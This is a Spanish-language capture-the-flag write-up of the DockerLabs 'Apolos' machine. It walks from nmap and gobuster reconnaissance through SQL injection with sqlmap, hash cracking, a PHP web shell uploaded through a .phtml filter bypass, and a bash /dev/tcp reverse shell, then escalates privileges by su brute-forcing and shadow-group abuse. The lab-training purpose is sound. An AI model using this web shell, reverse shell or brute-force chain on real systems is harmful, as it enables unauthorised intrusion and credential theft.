









Máquina "Apolos" de [DockerLabs](https://dockerlabs.es)

Autor: [Luisillo_o](https://www.youtube.com/@Luisillo_o)

Dificultad: Medio



# RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Thu Sep  5 15:43:53 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000013s latency).
Scanned at 2024-09-05 15:43:53 -03 for 8s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apple Store
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep  5 15:44:01 2024 -- 1 IP address (1 host up) scanned in 8.48 seconds
```

Solo está abierto el puerto 80 y corre apache httpd.

###### Puerto 80:



Parece ser una página en la que podemos comprar.

Ahora un fuzzing con gobuster:

```css
gobuster dir -u http://<ip> -w <wordlist> -x php,html,txt
```

```ruby
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/img                  (Status: 301) [Size: 306] [--> http://172.17.0.2/img/]
/index.php            (Status: 200) [Size: 5013]
/login.php            (Status: 200) [Size: 1619]
/register.php         (Status: 200) [Size: 1607]
/profile.php          (Status: 302) [Size: 0] [--> login.php]
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/logout.php           (Status: 302) [Size: 0] [--> login.php]
/vendor               (Status: 301) [Size: 309] [--> http://172.17.0.2/vendor/]
Progress: 93087 / 882244 (10.55%)
===============================================================
Finished
===============================================================
```

Podemos registrarnos, por lo que simplemente nos creamos una cuenta y listo. Una vez registrados veremos esto:



Si tocamos el boton de comprar ahora veremos una página en la que podemos comprar, pero lo que nos interesa es lo de buscar productos:


este nos interesa porque funciona bien, pero si probamos en poner una inyección sql como `or 1=1-- -`, veremos que nos muestra los productos:



Esto porque se ve que realiza una petición a la base de datos de manera insegura y 1 siempre es igual a 1, por lo que nos muestra los productos. Ahora que sabemos esto podemos usar `sqlmap`, para intentar leer la base de datos.

#### sqlmap:

Para usar sqlmap utilizaremos la request, por lo que abriremos el burpsuite, y capturaremos la petición al buscar un producto:



La copiamos y la metemos en un archivo llamado request. Una vez hecho eso ejecutaremos sqlmap de la siguiente manera:

```css
sqlmap -r request --batch --dump
```

```css
+----+------------------------------------------+----------+
| id | password                                 | username |
+----+------------------------------------------+----------+
| 1  | 761bb015d7254610f89d9a7b6b152f1df2027e0a | luisillo |
| 2  | 7f73ae7a9823a66efcddd10445804f7d124cd8b0 | admin    |
| 3  | a94a8fe5ccb19ba61c4c0873d391e987982fbbd3 | test     |
| 4  | a94a8fe5ccb19ba61c4c0873d391e987982fbbd3 | maci     |
+----+------------------------------------------+----------+
```

Ahora usaremos `john` para crackear la contraseña de admin. Para esto nos la copiamos y lo metemos en un archivo llamado hash, luego de eso ejecutaremos john:

```css
john --wordlist=<wordlist> hash
```

Ahora tenemos la contraseña de admin: 0844575632

# INTRUSION

Ahora que tenemos el usuario y contraseña del usuario admin, iniciamos sesión y vamos a donde dice "Sección de Administración", entramos y tendremos un panel en el que podemos subir archivos al ir a "configuracion":



Ahora subiremos un ".php" con el siguiente contenido:

```php
<?php
       system($_GET['cmd']);
?>
```

El problema es que al intentar subir un ".php" nos dice que no se pueden subir, por lo que buscaremos como bypasearlo para que lo suba igual. [HackTricks](https://book.hacktricks.xyz/pentesting-web/file-upload):



Como vemos hay muchas formas, en mi caso me funcionó ".phtml", ahora vamos a `/uploads/` y ya veremos el archivo. Ahora solo nos queda escuchar con netcat en el puerto 443 y enviar esto desde el navegador:

```css
http://<ip>/uploads/cmd.phtml?cmd=bash -c 'bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261'
```

# ESCALADA DE PRIVILEGIOS

### www-data

Antes de continuar haremos el tratamiento de la tty:

```css
script /dev/null -c bash # Ejecutamos y presionamos ctrl+Z
stty raw -echo;fg # Ejecutamos y escribimos "reset xterm" y enter
export TERM=xterm && export SHELL=bash
```

Luego de buscar un rato, la única manera de escalar es usando el script [su-bruteforce](https://github.com/carlospolop/su-bruteforce) con el mismo diccionario:

```css
./suBF.sh -u luisillo_o -w top12000.txt
```

esto demora unos 6 minutos pero finalmente encuentra la contraseña "19831983".

### Luisillo_o

Si ejecutamos `id` veremos que pertenecemos al grupo "shadow":

```css
uid=1001(luisillo_o) gid=1001(luisillo_o) groups=1001(luisillo_o),42(shadow)
```

por lo que si buscamos, hay una forma de escalar:

https://www.mohammedalani.com/tutorials/cracking-a-shadow-password-using-john-the-ripper/

Una vez hecho todo tal cual como sale en la página, habremos escalado a root con la contraseña "rainbow2":



Gracias por leer.